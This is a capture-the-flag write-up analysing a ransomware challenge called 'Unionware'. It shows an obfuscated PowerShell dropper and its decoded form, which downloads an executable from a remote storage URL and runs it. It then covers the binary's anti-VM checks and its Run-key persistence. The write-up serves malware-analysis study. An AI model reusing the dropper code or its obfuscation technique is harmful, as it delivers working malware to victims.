 # UnionCTF - Unionware

This challenge gives us two files: an "unionware.ps1" and a "important_homework.txt.unionware" containing seemingly random bytes. The challenge tells us that a ransomware encrypted the important homework and asks us to decrypt it.

## Analyzing the Powershell

While looking at the powershell, we can see an obfuscated Powershell command, which seems to split some random string and then evaluating it. So, we'll just run the part of the script which deobfuscates the payload without executing it, which give us:

```powershell

-joIN ( '105%102n40%36n69M78%86M58:85%115a101_114M68n111:109u97C105n110C32n45M101a113C32n34:72O77O82C67u34O41u32u123a13:10_32H32n32M32:40u78_101H119n45u79%98%106H101O99n116C32H39:78H101n116C46M87H101u98O67_108M105H101M110M116C39n41M46M68n111u119u110O108n111M97n100M70n105H108O101u40%34:104n116u116n112a115M58u47C47M115a116n111C114M97n103a101M46a103C111a111u103O108C101%97a112u105_115n46_99M111n109_47M101M117n45:117C110_105H111H110%99H116_102O45u50u48C50u49O47u108n110n69M76:75:78n100O111H105a101:46n101_120M101n34M44O32C34C36_69n78M86_58a116n101u109O112H92H108_110a69_76%75%78a100a111:105u101_46:101n120%101:34C41O13M10a32u32u32u32M115n116M97n114u116%32n36O69M78u86M58_116:101n109a112:92a108O110M69a76M75O78C100a111:105u101:46M101u120C101%13:10n125' -spLIT'a'-SPlIT'n'-SPLit ':'-spLiT 'u'-sPLIT '%' -SpLiT 'O' -sPLiT 'H'-SpLit'C' -SPLit'M' -spLIt '_' |%{ ( [ChAr][int]$_)} )

```
Unfortunately Windows Defender detects it as a malware, so we have to tell it to stfu, and then we get:
```powershell

if($ENV:UserDomain -eq "HMRC") {
    (New-Object 'Net.WebClient').DownloadFile("https://storage.googleapis.com/eu-unionctf-2021/lnELKNdoie.exe", "$ENV:temp\lnELKNdoie.exe")
    start $ENV:temp\lnELKNdoie.exe
}

```
The Powershell script is just a downloader for another executable we'll need to analyze

## Payload analysis
The executable is a 32-bit binary. The main function does a lot of anti-VM checks which were a bit annoying to bypass`, with function calls dynamically resolved through LoadLibrary/GetProcAddress with obfuscated strings.

```text
.text:00402177 loc_402177:                             ; CODE XREF: _main+6E↑j
.text:00402177                 call    AntiVMCheck1
.text:0040217C                 call    AntiVMCheck2
.text:00402181                 call    AntiVMCheck3
.text:00402186                 rdtsc
.text:00402188                 mov     esi, eax
.text:0040218A                 mov     edi, edx
```
After some debugging in x64dbg, I figure outd that the malware checks if it's installed into HKCU\Software\Microsoft\Windows\CurrentVersion\Run under the REG_SZ value "slkkmeLDDF". if not, it calls an install function to set up that key with the module path.
